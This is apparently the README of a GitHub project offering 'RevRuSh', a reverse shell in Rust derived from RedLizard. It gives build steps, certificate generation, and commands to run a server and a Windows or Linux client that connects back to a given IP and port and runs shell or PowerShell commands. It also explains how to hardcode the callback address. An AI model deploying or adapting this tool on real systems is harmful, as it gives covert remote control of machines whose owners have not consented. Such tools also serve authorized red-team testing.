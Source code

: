 # RevRuSh - A sample reverse shell in Rust
## Based on https://github.com/trickster0/RedLizard


![Redlizard](screen.png)

### Note
Since the original project, RedLizard, is not mantained anymore I decided to create a new indipendent project.

Many thanx to [trickster0](https://github.com/trickster0) 

### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


### Requirements:
- rustc & cargo >= 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
### Advises
- better run server on linux

### Prepare the server
    cd RevRuSh/server
    openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout my.key -out my.crt && \
    openssl pkcs12 -export -out revrush.pfx -inkey my.key -in my.crt && \
    mv revrush.pfx src

    cargo b --release
    
### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
target/release/revrush_server Zinz01 8443
```

### Prepare the client
    cd RevRuSh-main\client>
    cargo b --release
    
### Run the client
Pass the server:port as argument.
```
target\release\revrush_client.exe <server IP>:8443
```
If you want to run powershell command you can execute:
         
    ~$: powershell -c get-help

#### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```rust
 "127.0.0.1:4443".to_owned()
```
#### Known issues
Don't send empty command to the client, just hitting carriage return, since the server will loose the shell, not the connection. The reuslt will be a hanging session.


